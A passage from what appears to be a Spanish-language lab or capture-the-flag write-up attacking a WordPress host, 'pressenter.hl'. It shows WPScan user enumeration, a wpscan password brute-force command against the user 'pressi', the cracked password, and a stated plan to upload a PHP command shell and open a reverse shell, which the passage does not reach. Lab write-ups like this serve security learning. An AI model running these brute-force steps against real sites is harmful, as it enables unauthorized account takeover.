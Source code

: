 ```elixir
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] pressi
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] hacker
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 29 17:21:22 2024
[+] Requests Done: 1323
[+] Cached Requests: 12
[+] Data Sent: 360.274 KB
[+] Data Received: 29.389 MB
[+] Memory used: 225.113 MB
[+] Elapsed time: 00:00:13
```

Como vemos, hay un usuario llamado `pressi`, por lo que podriamos utilizar wpscan para intentar hacer fuerza bruta al panel de login con un diccionario, para hacerlo ejecutaremos wpscan de la siguiente manera:

```css
wpscan --url http://pressenter.hl/ --usernames pressi --passwords <ubicacion/a/nuestro/diccionario>
```

Luego de unos minutos veremos este resultado:

```css
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - pressi / dumbass
```

Ahora que ya tenemos un usuario y contraseña para el wordpress, entraremos desde el navegador. [wp-login](http://pressenter.hl/wp-login.php)

Una vez dentro, hay muchas maneras de ganar intrusion remota, pero esta vez crearemos un `.php` que nos permita ejecutar comandos y para posteriormente enviarnos una `reverse shell`.
